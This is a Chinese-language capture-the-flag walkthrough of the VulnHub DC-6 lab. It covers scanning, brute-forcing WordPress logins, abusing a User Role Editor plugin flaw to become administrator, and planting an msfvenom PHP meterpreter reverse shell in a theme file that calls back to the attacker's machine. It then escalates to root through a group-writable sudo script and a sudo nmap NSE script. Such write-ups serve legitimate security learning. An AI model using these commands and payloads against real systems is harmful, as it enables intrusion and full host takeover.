# 目标

get **flags**

---

# 查看vulnhub页面的信息


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.41`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.41 -sS -sV -Pn --max-rate 10000 -p-
```


**TCP connection扫描**
```shell
nmap 192.168.64.41 -sT -sV -Pn --max-rate 10000 -p-
```


**UDP扫描**
```shell
nmap 192.168.64.41 -sU -sV -Pn --max-rate 10000 --top-ports 100
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.41 -sV -sC -Pn -O --max-rate 10000 -p 22,80,2
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.41 -sV --script vuln -Pn -O --max-rate 10000 -p 22,80,2 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.41 -sV --script ssh-auth-methods.nse,ssh-hostkey.nse -p 22
```


## 1.4 80端口获取信息
### 1.4.1 访问`http://192.168.64.41`
你会发现会跳到`http://wordy`，因此在`/etc/hosts`里面加入，
```text
192.168.64.41  wordy
```


网站是一个wordpress(CMS).

### 1.4.2 利用扫描wordpress
```shell
wpscan --url http://wordy --rua -e ap,u --plugins-detection passive -f cli-no-color -o wpscan.txt
```
```text
[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
[+] WordPress theme in use: twentyseventeen
[i] No plugins Found.
[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).

[i] User(s) Identified:
[+] admin
[+] mark
[+] graham
[+] sarah
[+] jens
```
通过xmlrpc-multical暴力破解应该是不行了.

通过vulnhub页面上面的提示可以明显的得到一个相对于rockyou.txt小得多的字典，保存为passwords.txt,
```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
wpscan --url http://wordy --usernames users.txt --passwords passwords.txt
```

- username: `mark`
- password: `helpdesk01`

### 1.4.3 扫描网站目录
```shell
gobuster dir --url http://192.168.64.41 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,git,jpg,png,bak -db
```

没啥信息。

---

# 2.建立系统立足点
登陆wordpress检查了半天没有找到什么有用的东西，上面使用passive没有找到plugin, 但是上面有activity monitor有，应该是有plugin的。再使用其他方法扫描一下，
```shell
wpscan --url http://wordy --enumerate p --plugins-detection aggressive
```

去网上搜一搜，这个user-role-editor 4.24版本有漏洞，低权限用户可以提升为admin权限用户。

去修改mark用户的profile，然后抓包(主要抓`POST /wp-admin/profile.php`)，在POST data后面加上`&ure_other_roles=administrator`.


成功了，可以建立反弹连接了。

生成php反弹代码
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -f raw -o reverse_tcp.php
```

将`reverse_tcp.php`文件内容（去掉注释）放入php文件（我选择Twenty Nineteen主题里面的footer.php文件）。然后去选择激活Twenty Nineteen主题。

在kali里面监听
```shell
msf > use exploit/multi/handler
msf > set lhost 192.168.64.2
msf > set lport 1025
msf > set payload php/meterpreter/reverse_tcp
msf > run
```

然后去访问wordpress网站界面，



---

# 3.系统提权

```shell
uname -a
## Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
```
内核版本不高，但是布丁挺新的，后面可以考虑内核提权。

```shell
find / -perm -4000 -type f 2>/dev/null
```
没发现什么有用的信息。

查看/etc/passwd
```shell
cat /etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
graham:x:1001:1001:Graham,,,:/home/graham:/bin/bash
mark:x:1002:1002:Mark,,,:/home/mark:/bin/bash
sarah:x:1003:1003:Sarah,,,:/home/sarah:/bin/bash
jens:x:1004:1004:Jens,,,:/home/jens:/bin/bash
```
有用户: `graham`, `mark`, `sarah`, `jens`

先去看看mark用户的家目录里面的内容（因为前面扫出来的wordpress用户就是mark）
还真有东西，拿到了，

- username: `graham`
- password: `GSo7isUM1D4`

去登陆ssh


```shell
sudo -l
```

可以无密码的执行jens用户的一个可执行脚本文件，去看看这个脚本文件的内容，
```shell
cat backups.sh
```
```
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```
感觉可以路径劫持，然后切换到jens用户，扩大攻击面。

```shell
cd /tmp
touch tar
echo '#!/bin/bash' > tar
echo 'bash -p' >> tar
chmod 777 tar
```
```
graham@dc-6:~$ sudo -u jens PATH=/home/graham:$PATH /home/jens/backups.sh
sudo: sorry, you are not allowed to set the following environment variables: PATH
```
哎，不行。

细细查看这个文件
```shell
ls -l /home/jens/backups.sh
## -rwxrwxr-x 1 jens devs 54 Apr 30 23:55 /home/jens/backups.sh
```
有点特别，这个文件属于dev组的用户有rwx权限！
去查当前graham用户id（在上面）就可以看到也是属于dev用户组的，我们上面还搞什么，直接修改就完事了。
```shell
#!/bin/bash
/bin/bash -p
```
```shell
sudo -u jens /home/jens/backups.sh
```



直接去GTFOBins网站上面搜，

这个版本对不上，需要使用下面的方案，



```shell
echo 'os.execute("/bin/sh")' > root.nse
sudo nmap --script=root.nse 127.0.0.1
```

交互性有点差，后续可以通过反弹连接等，提高交互性。

---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-6**: 
- website: `https://www.vulnhub.com/entry/dc-6,315/`
- IP: `192.168.64.41`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐